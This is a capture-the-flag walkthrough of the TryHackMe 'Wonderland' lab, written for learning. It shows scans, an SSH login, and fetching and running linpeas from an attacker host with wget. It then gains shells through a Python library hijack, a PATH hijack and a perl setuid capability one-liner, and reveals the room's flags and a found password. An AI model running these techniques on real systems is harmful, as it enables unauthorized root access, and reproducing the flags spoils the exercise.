

# Wonderland

> Platform: TryHackMe
>
> Created by: [NinjaJc01](https://tryhackme.com/p/NinjaJc01)
>
> Difficulty: Medium

## Enumeration

First of all, we will begin with the **Nmap**. Actually, you can just use a normal Nmap command, but here is my preferences.
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/wonderland]
└─$ nmap -sVSC <TARGET-IP> -T5 -Pn -n -vvv -oA wonderlandscan
Nmap scan report for <TARGET-IP>
Host is up, received user-set (0.30s latency).
Scanned at 2025-08-12 20:48:26 +08 for 20s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack ttl 61 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

From the **Nmap** results, looks like there's a port 80 open.


Now try to **enumerate the web directory** of the page **using GoBuster**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/wonderland]
└─$ gobuster dir -u http://<TARGET-IP>/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<TARGET-IP>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 0] [--> img/]
/index.html           (Status: 301) [Size: 0] [--> ./]
/r                    (Status: 301) [Size: 0] [--> r/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

When going to the **"/r"** page, we found out that the page tell us to keep going.


Try to **enumerate more from the "/r"** directory:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Wonderland]
└─$ gobuster dir -u http://<TARGET-IP>/r/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://<TARGET-IP>/r/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/a                    (Status: 301) [Size: 0] [--> a/]
/index.html           (Status: 301) [Size: 0] [--> ./]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```


From here, I suspect that if we keep on enumerating the pages, we will get to the **"/r/a/b/b/i/t"** page:


From here, it tells us to **"Open the door and enter the wonderland"**, as it tells us to try connect to the server. When viewing the source page, we found out the **credentials which we can use for SSH** maybe:


## Exploitation

Now, try to **SSH to the server using the credentials**:
```
┌──(kali㉿kali)-[/mnt/…/Learning/TryHackMe/Machines/Wonderland]
└─$ ssh <username>@<TARGET-IP>
```


We found out that there is a **"root.txt"** file but we cannot view the content of it and **there is another ".py" script**:


I also tried to fetch the **linpeas** script to make it easy for me.

In Attacker Machine:
```
┌──(kali㉿kali)-[~/upload]
└─$ ls
linpeas.sh

┌──(kali㉿kali)-[~/upload]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

In **Target** Machine:
```
alice@wonderland:~$ cd /tmp

alice@wonderland:~$ wget http://<ATTACKER-IP>/linpeas.sh

alice@wonderland:~$ chmod +x linpeas.sh; ./linpeas.sh
```

After some time thinking, why the **root.txt was in the alice directory?** I also tried to **go to the /root directory** and didn't expect to be able to **read the user.txt**:
```
alice@wonderland:~$ cd /root

alice@wonderland:/root$ cat user.txt
```

<details>
<summary><b>🏳️user.txt</b></summary>
<b>thm{"Curiouser and curiouser!"}</b>
</details><br>

## Privilege Escalation

Moving on to **escalate our privileges to root**. We need to find what can we leverage to spawn a privilege shell.

First we try to check with the **sudo permission** first
```
alice@wonderland:~$ sudo -l
.
.
.
User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

From here, it looks like we are able to **use the python3.6 binaries as the user rabbit**. But how can we use it to become user rabbit?

From the **".py"** script that we found earlier in the **"/alice"** directory, there is a line where it will import the random module:
```py
import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
...
```

From writeups that I found, we can leverage the python library hijacking to spawn the shell as the user rabbit. From Google Gemini AI summary:


To exploit this, we can try **create a new .py script** which will **spawn the shell** and make it **named as random.py** so that whenever we **run the walrus_and_the_carpenter.py** script, it will **import the random.py script** that we have created and **spawn the shell as user rabbit**.

Creating random.py:
```
alice@wonderland:~$ nano random.py
```

```py
import pty
pty.spawn("/bin/bash")
```

Now, run the **"walrus_and_the_carpenter.py"** script:
```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 
[sudo] password for alice: 
rabbit@wonderland:~$ 
```

Nice! Now we can try to find more what the user rabbit can do.

In /home/rabbit directory, we found another file:
```
rabbit@wonderland:/home/rabbit$ ls
teaParty
```

Try to view the content of the file:
```
rabbit@wonderland:/home/rabbit$ cat teaParty
```


From here, the **date** seems to be weird here as **it doesn't call from the absolute path of the binary**. We can try to create another script file to spawn a shell and make it named as date in the same directory as the teaParty file.

Create the date file:
```
rabbit@wonderland:/home/rabbit$ nano date
```

```sh
#!/bin/bash
/bin/bash
```

Make sure to set the date to be executable:
```
rabbit@wonderland:/home/rabbit$ chmod +x date
```

Next, **add the /home/rabbit directory into the PATH** so that when we run the teaParty, it will able to find the date from /home/rabbit directory and should spawn the hatter shell for us.
```
rabbit@wonderland:/home/rabbit$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH

rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$
```

Nice! Now we need to find what we can do to get to the next privilege or root privilege.

In /home/hatter directory, we found the password.txt file:
```
hatter@wonderland:/home/hatter$ ls
password.txt

hatter@wonderland:/home/hatter$ cat password.txt
WhyIsARavenLikeAWritingDesk?
```

From here, I also **run the linpeas script** to make it easy for me to find what can we use to gain privilege as root.

In the linpeas output, we can try to **use the perl capabilities** exploit to get to the root privilege:


From [GTFOBins - perl](https://gtfobins.github.io/gtfobins/perl/#capabilities), in Capabilities section, we can get the root shell by running the command:
```
hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash -i";'

root@wonderland:~#
```

Now we can read the **root.txt** in alice directory to complete the machine.
```
root@wonderland:~# cat /home/alice/root.txt
```

<details>
<summary><b>🏳️root.txt</b></summary>
<b>thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}</b>
</details><br>